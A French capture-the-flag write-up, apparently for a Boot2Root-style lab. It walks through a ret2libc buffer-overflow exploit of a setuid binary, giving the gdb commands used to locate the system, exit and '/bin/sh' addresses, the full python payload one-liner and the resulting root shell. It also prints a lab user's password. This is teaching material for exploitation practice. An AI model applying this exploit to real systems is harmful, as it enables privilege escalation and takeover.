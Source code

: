 # Solution 4

De la même manière que le `writeup3`, nous allons à nouveau exploiter l'exécutable présent dans le home de l'utilisateur `zaz`.

`zaz:646da671ca01bb5d84dbb5fb2238dc8e`

Les solutions précédentes consistaient à exécuter un shellcode précédemment chargé en mémoire, soit directement sur la stack, soit dans une variable d'environnement.

Certaines protections existent pour se protéger des buffer overflows. Une des premières barrières a été de rendre la pile non exécutable. Ainsi, l’attaquant place son shellcode dans le buffer, ou dans une variable d’environnement (placée sur la pile), mais lorsque le flow d’exécution est redirigé vers son code, celui-ci ne s’exécute pas.

Nous allons donc utiliser un autre type d'exploit : `ret2libc`.

Le concept est simple, utiliser des fonction déjà programmée afin de déjouer les potentielles protections. Comme nous allons le voir, l'exploit est relativement simple, cela a donc du sens de l'utiliser même si aucune protection de ce type n'est présente.

La libc comporte une fonction `system()` qui exécute des commandes. Si nous parvenons à l'appeler en lui fournissant les bons arguments, nous pourrons par exemple faire :

```C
system("/bin/sh")
```

Ce qui nous lancerait un shell `root`.

Pour ce faire, il nous faut placer la `stack` dans la bonne configuration :

![turtle](/images/ret2libc.png)

Notre commande sera donc du type :

`./exploit me $(python -c 'print("A"*140 + "addresse de system()" + "AAAA" + "adresse de /bin/sh")')`

Nous récupérons donc les adresse dont nous avons besoin :

```shell
$ gdb -q exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) b *main
Breakpoint 1 at 0x80483f4
(gdb) r
Starting program: /home/zaz/exploit_me

Breakpoint 1, 0x080483f4 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

- system = `0xb7e6b060`
- /bin/sh = `0xb7f8cc58`
- exit = `0xb7e5ebe0`

Nous allons mettre l'adresse de la fonction `exit` à la place des quatres `A` dans notre commande. Cela permettra au programme de quitter sans émettre d'erreurs.

Voici le résultat :

```shell
$ ./exploit_me $(python -c 'print("A"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`X
# whoami
root
#
zaz@BornToSecHackMe:~$
```
